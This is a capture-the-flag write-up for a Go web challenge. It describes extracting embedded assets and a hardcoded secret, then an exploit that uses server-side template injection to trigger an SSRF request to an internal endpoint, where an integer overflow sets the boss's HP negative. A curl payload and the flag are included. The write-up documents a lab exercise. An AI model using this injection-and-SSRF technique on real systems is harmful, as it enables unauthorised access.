

# The Soldier of God, Rick - Web

Go web application binary (`rick_soldier`) with embedded assets. The challenge requires defeating "Rick" to obtain the flag. The binary serves a web interface where users can submit a "battle cry" and "secret" to fight Rick.

## Methodology
* ## Steps
    1. Scout makes SSRF request to internal endpoint from localhost.
    2. Integer overflow sets Rick's HP to `-2147483648`.
    3. `IsDead()` returns true (HP <= 0).
    4. Template renders "LEGEND FELLED" with flag.

## Asset Extraction

Used Go-Embed-Extractor `extract_embed.py` to extract embedded files:
```bash
python3 extract_embed.py rick_soldier
```
https://github.com/dimasma0305/Go-Embed-Extractor/blob/main/extract_embed.py

**Extracted files:**
- `.env` → `SECRET_PHRASE=Morty_Is_The_Real_One`
- `templates/index.html` → Web interface with form posting to `/fight`
- `static/style.css`, `static/rick_soldier_sprite.png`

**Key endpoints identified:**
- `GET /` → Main page with fight form
- `POST /fight` → Battle handler (requires `battle_cry` and `secret` params)
- `GET /internal/offer-runes?amount=N` → Internal endpoint (localhost only)

## Final Payload
```bash
curl -X POST "http://challenges.1pc.tf:21135/fight" \
  -d 'battle_cry={{ .Rick.Scout "http://127.0.0.1:8080/internal/offer-runes?amount=2147483648" }}&secret=Morty_Is_The_Real_One'
```



## 🤖 AI Usage

* **Did you use AI?** Yes, Claude Opus 4.6 used for analysing the binary. Vulnerabilities confirmed and exploited manually.

## 🚩 Proof

**Flag:** C2C{R1ck_S0ld13r_0f_G0d_H4s_F4ll3n_v14_SST1_SSR7_7c2b36ce69e9}